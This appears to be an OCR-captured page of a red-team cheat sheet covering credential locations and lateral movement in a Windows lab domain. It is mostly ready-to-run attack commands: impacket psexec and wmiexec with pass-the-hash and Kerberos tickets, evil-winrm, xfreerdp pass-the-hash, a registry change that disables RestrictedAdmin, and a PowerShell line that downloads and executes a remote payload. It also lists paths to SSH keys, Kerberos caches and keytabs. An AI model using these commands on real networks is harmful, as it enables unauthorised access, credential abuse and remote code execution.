 ```
```
### SSH Key

id_rsa: Could be other user's.

authorized_keys

known_hosts

### Ansible
```
/opt/web.yml
```
### Jfrog

### ccache
```
/tmp/krb5cc_alice
```
### keytab

/etc/krb5.keytab

## Remote Access
### psexec
```bash
python3 impacket/examples/psexec.py -hashes :052e763020c5da81d4085a05e69b0f1b [RED/]pete@192.168.y.z
python3 impacket/example/psexec.py -k -no-pass da@reddc.red.com cmd
```
### Winrm

```
evil-winrm -i 172.16.y.z -u [red.com\\]jim -p Passw0rd

evil-winrm -i 192.168.y.z -u kevin -H [hash]

invoke-command -computername redwebaw.red.com-scriptblock {cmd /c "powershell -exec  bypass -nop iex (new-object net.webclient).downloadstring('http://192.168.x.y/runner64.txt')"}
```
### Wmiexec
```
python3 impacket/examples/wmiexec.py [RED/]evil@192.168.y.z
 
python3 impacket/examples/wmiexec.py -k --no-pass RED/evil@192.168.y.z
```

### RDP

#### Password Authentication
```
xfreerdp /u:Administrator /p:lab [/d:red.com] /cert:ignore  //v:192.168.y.z/dynamic-resolution
```
#### PTH
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0

xfreerdp /v:192.168.y.z /u:bill /pth:[hash] /d:red.com /dynamic-resolution
```
### PsExec64
